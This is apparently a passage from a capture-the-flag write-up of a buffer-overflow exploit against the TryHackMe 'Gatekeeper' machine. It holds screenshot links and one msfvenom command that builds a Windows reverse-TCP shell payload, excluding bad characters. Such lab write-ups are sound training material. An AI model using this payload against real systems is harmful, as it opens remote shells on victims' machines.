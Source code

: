 ![mona jmp pt](/images/THM/gatekeeper/Captura27.PNG)

Time to generate the payload, without the two BadChars and in this case let's use the **thread** option to making the thread die instead of the parent process.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<our IP> LPORT=<our port> EXITFUNC=thread -b "\x00\x0a" -f c
```

![payload debugger](/images/THM/gatekeeper/Captura28.PNG)